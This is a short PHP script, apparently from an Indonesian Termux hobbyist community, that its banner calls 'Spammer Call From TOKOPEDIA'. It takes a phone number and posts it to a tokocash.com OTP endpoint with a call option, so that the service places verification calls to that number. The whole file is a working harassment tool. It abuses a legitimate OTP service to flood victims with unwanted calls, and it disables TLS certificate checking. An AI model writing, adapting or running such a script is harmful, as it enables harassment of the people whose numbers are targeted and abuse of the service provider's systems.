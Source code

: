 # Toll-G
Termux.id

<?php
// Limit 3x Telpon Setiap Satu Nomor
function send($phone){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, "https://www.tokocash.com/oauth/otp");                      curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
        curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($ch, CURLOPT_HEADER, true);
        curl_setopt($ch, CURLOPT_POST, 1);
        curl_setopt($ch, CURLOPT_POSTFIELDS, "msisdn=$phone&accept=call");                        $asw = curl_exec($ch);
        curl_close($ch);
                echo $asw."\n";
}
echo "
############################################################
    Spammer Call From TOKOPEDIA
        Author By   : cursor99
        Support     : Kunjungi Website Kami
        Website     : https://wiki.termux.com
        Youtube     : *****
     Penggunaannya  : Bisa Menggunakan [08/62]
###########################################################\n";
echo "Nomor\nInput : ";
$nomor = trim(fgets(STDIN));
$execute = send($nomor);
print $execute;
?>


